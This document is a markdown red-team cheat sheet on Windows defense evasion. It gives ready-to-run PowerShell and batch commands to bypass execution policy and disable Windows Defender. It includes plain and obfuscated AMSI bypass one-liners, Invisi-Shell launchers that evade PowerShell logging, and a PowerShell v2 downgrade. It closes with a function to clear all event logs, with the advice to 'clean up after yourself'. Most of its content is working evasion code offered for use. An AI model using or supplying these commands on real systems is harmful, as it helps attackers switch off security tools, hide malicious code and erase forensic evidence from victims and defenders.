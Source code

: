 # Defense Evasion

## Bypassing Execution Policy

		powershell -ExecutionPolicy bypass
		powershell -c <cmd>
		powershell -encodedcommand $env:PSExecutionPolicyPreference="bypass"


## Windows Defender
### Disable Windows Defender
In PowerShell, the following 2 commands with *Admin privilege*:
 
	Set-MpPreference -DisableRealtimeMonitoring $true -force
	Set-MpPreference -DisableIOAVProtection $true
    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force

## Path Exclusion

Check that path from which Windows Defender allows execusion.

`Get-MpPreference | Select-Object -ExpandProperty ExclusionPath` 

## Windows Firewall
### Creating rules
TODO

## Bypass AMSI

Article showing multiple methods https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/

AMSI is short for Antimalware Scan Interface.

The goal of AMSI is to prevent the execution of arbitrary code containing malicious content.

### Basic - Forcing an AMSI Initialization Failure

Likely detectable

`[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`

Base64 Encoded

```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

### Obfuscation

#### Obfuscated Command 1

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

#### Obfuscated Command 2

```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" - f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation .'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" - f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```


### Invoke-AMSIBypass

https://raw.githubusercontent.com/samratashok/nishang/master/Bypass/Invoke-AmsiBypass.ps1

`. .\Invoke-AmsiBypass.ps1`

Or copy the code from github and paste it directly into the powershell console

`Invoke-AmsiBypass -Verbose`

## Invisi-Shell

Project https://github.com/OmerYa/Invisi-Shell

Hide your powershell script in plain sight! Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies. The hook is performed via CLR Profiler API.

*Paste in cmd or run as .bat*

### RunWithPathAsAdmin.bat

```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
```

### RunWithRegistryNonAdmin.bat

```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
```

## Downgrading PowerShell

Sometimes you need to downgrade powershell as new versions come are more secure

`powershell.exe -version 2`

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Version 2`

checking version

`$PSVersionTable`

## Powershell Obfuscators

**Invoke-Obfuscation** is a PowerShell v2.0+ compatible PowerShell command and script obfuscator.

https://github.com/danielbohannon/Invoke-Obfuscation

**Invoke-Stealth** is a Simple & Powerful PowerShell Script Obfuscator.

https://github.com/JoelGMSec/Invoke-Stealth

**Powerob** An on-the-fly Powershell script obfuscator meant for red team engagements. 

 Tutorial https://medium.com/@ammadb/invoke-obfuscation-hiding-payloads-to-avoid-detection-87de291d61d3

https://github.com/cwolff411/powerob


## Scanning Scripts for Detection

### DefenderCheck

https://github.com/matterpreter/DefenderCheck

### AMSITrigger

https://github.com/RythmStick/AMSITrigger

## Clear Event Logs

Clean up after yourself

*Required admin privilege*

```
function clear-all-event-logs ($computerName="localhost")
{
   $logs = Get-EventLog -ComputerName $computername -List | ForEach-Object {$_.Log}
   $logs | ForEach-Object {Clear-EventLog -ComputerName $computername -LogName $_ }
   Get-EventLog -ComputerName $computername -list
}

clear-all-event-logs -ComputerName <hostname>
```

Expected output

```
Max(K) Retain OverflowAction        Entries Log
------ ------ --------------        ------- ---
15,168      0 OverwriteAsNeeded           0 Application
15,168      0 OverwriteAsNeeded           0 DFS Replication
512         7 OverwriteOlder              0 DxStudio
20,480      0 OverwriteAsNeeded           0 Hardware Events
512         7 OverwriteOlder              0 Internet Explorer
20,480      0 OverwriteAsNeeded           0 Key Management Service
16,384      0 OverwriteAsNeeded           0 Microsoft Office Diagnostics
16,384      0 OverwriteAsNeeded           0 Microsoft Office Sessions
30,016      0 OverwriteAsNeeded           1 Security
15,168      0 OverwriteAsNeeded           2 System
15,360      0 OverwriteAsNeeded           0 Windows PowerShell
```